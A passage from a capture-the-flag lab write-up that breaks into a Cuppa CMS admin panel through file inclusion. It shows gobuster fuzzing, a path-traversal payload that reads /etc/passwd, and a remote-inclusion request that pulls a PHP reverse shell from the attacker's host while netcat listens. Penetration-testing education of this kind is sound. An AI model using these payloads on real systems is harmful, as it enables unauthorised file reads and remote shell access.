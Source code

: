 ![image](https://user-images.githubusercontent.com/67465230/186829755-00584837-7bef-4c36-9b38-c518ab191631.png)

we landed on a page where we can see Dr. Miles Bennett Dyson's picture and a description about his invention of neural-net processor. But we don't have much to do on this page, so let's fuzz directories.

Again using gobuster to fuzz hidden directories,

```bash
gobuster dir -u http://10.10.203.243/45kra24zxs28v3yd -w /usr/share/seclists/Discovery/Web-Content/common.txt -q 2>/dev/null -o gobuster2.log
```

![image](https://user-images.githubusercontent.com/67465230/186829787-e60b37f7-c9b4-4c05-b956-cebe45ad0f28.png)

we got another hidden directory named **/administrator**.

Let's visit the hidden directory to see what's there, http://10.10.203.243/45kra24zxs28v3yd/administrator,

![image](https://user-images.githubusercontent.com/67465230/186829858-db6c80d6-5be7-4c7c-b76a-9c738f27b02e.png)

we got a login page running **Cuppa CMS** on which we can login to get access to panel.

But since we don't have user credentials, we can search for possible exploits for Cuppa CMS,

```bash
searchsploit cuppa cms
```

![image](https://user-images.githubusercontent.com/67465230/186829901-cdc76ace-b0e3-405e-a0df-4afb4bfaad91.png)

we got a single exploit for this service and it's **Local/Remote File Inclusion**, *indeed an interesting vulnerability*.

Let's read the description of how this vulnerability can be exploited by attacker,

![image](https://user-images.githubusercontent.com/67465230/186829929-42d75656-41ec-4379-be8a-041e54e761e7.png)

Okay so now we know how to exploit the vulnerability, we can first try to include **/etc/passwd** file to see if this vulnerability exist,

```php
/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```

![image](https://user-images.githubusercontent.com/67465230/186829984-2c71d38b-4830-4d43-8aad-14243e5b31c5.png)

we can see that website returns the /etc/passwd file contents on the response. So it confirms that we can include files.

Let's try to include a remote file, **php-reverse-shell.php** in our case, to website. Now, change the IP and port as desired and start the netcat listener using `nc -nvlp 4444` and we need to start a python server using `python3 -m http.server` and then include the php-reverse-shell.php,

```php
/administrator/alerts/alertConfigField.php?urlConfig=http://10.9.4.104:8000/php-reverse-shell.php
```
